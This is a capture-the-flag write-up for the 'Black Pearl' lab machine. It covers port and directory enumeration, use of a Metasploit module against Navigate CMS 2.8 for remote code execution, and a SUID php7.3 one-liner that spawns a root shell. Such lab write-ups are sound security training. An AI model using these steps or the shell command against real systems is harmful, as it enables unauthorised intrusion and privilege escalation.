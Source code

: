 ```yaml
---
title: Black Pearl (TCM)

date: "2023-12-26"

author: "MatDef"

---
```


# Description:
- NONE

# Information Gathering

## Enumeration

### nmap
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 66:38:14:50:ae:7d:ab:39:72:bf:41:9c:39:25:1a:0f (RSA)
|   256 a6:2e:77:71:c6:49:6f:d5:73:e9:22:7d:8b:1c:a9:c6 (ECDSA)
|_  256 89:0b:73:c1:53:c8:e1:88:5e:c3:16:de:d1:e5:26:0d (ED25519)
53/tcp open  domain  ISC BIND 9.11.5-P4-5.1+deb10u5 (Debian Linux)
| dns-nsid: 
|_  bind.version: 9.11.5-P4-5.1+deb10u5-Debian
80/tcp open  http    nginx 1.14.2
|_http-title: Welcome to nginx!
|_http-server-header: nginx/1.14.2

```
#### Port 80 nginx 1.14.2 Webserver Default
nginx 1.14.2
Commentary on Website:
`Webmaster: alek@blackpearl.tcm`
--> added `blackpearl.tcm` to /etc/hosts
-> found index.php: phpinfo()

#### gobuster dir scan
`/secret` -> Note with 'Directory busting not needed' (with IP)
`/navigate` -> CMS Navigate 2.8 (with host)

#### nikto
`/#wp-config.php#: #wp-config.php# file found. This file contains the credentials.`

#### Port 53 ISC? dns? UDP?
Pentestind Dns
ISC Bind 9.11.5-P4-5.1
```shell
dig -x blackpearl.tcm @192.168.111.12                                             
; <<>> DiG 9.19.17-2~kali1-Kali <<>> -x blackpearl.tcm @192.168.111.12
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: SERVFAIL, id: 59547
;; flags: qr rd ra; QUERY: 1, ANSWER: 0, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4096
; COOKIE: a59c48e9058c21865a28dbb0658ad523a0c9284d86cb2043 (good)
;; QUESTION SECTION:
;tcm.blackpearl.in-addr.arpa.	IN	PTR

;; Query time: 4 msec
;; SERVER: 192.168.111.12#53(192.168.111.12) (UDP)
;; WHEN: Tue Dec 26 12:05:39 EST 2023
;; MSG SIZE  rcvd: 84

```
-> nothing interesting
#### gobuster
Nothing found with vhost/dns module


# Exploitation

Navigate CMS 2.8 is vulnerabele to Remote Code Execution (Metasploit-Module)
```shell
Payload information:

Description:
  This module exploits insufficient sanitization in the database::protect
  method, of Navigate CMS versions 2.8 and prior, to bypass authentication.

  The module then uses a path traversal vulnerability in navigate_upload.php
  that allows authenticated users to upload PHP files to arbitrary locations.
  Together these vulnerabilities allow an unauthenticated attacker to
  execute arbitrary PHP code remotely.

  This module was tested against Navigate CMS 2.8.
```
![](images/foothold_meterpreter.png)

## Privilege Escaltion
### Linpeas 

```shell
[REDACTED]
╔══════════╣ SUID - Check easy privesc, exploits and write perms
[REDACTED]
-rwsr-xr-x 1 root root 4.6M Feb 13  2021 /usr/bin/php7.3 (Unknown SUID binary!)
[REDACTED]
```
`gtfobins SUID bit set`: 

```shell
CMD="/bin/sh"
/usr/bin/php7.3 -r "pcntl_exec('/bin/sh', ['-p']);"
```
Root Access:

```shell
ls /root
flag.txt  interfaces

cat /root/flag.txt
Good job on this one. Finding the domain name may have been a little guessy, but the goal of this box is mainly to teach about Virtual Host Routing which is used in a lot of CTF.
```
---

### References & Further Research
- [CVE-2018-17552](https://nvd.nist.gov/vuln/detail/CVE-2018-17552)
- [CVE-2018-17553](https://nvd.nist.gov/vuln/detail/CVE-2018-17553)
- [GTFO-BINS_Php](https://gtfobins.github.io/gtfobins/php)
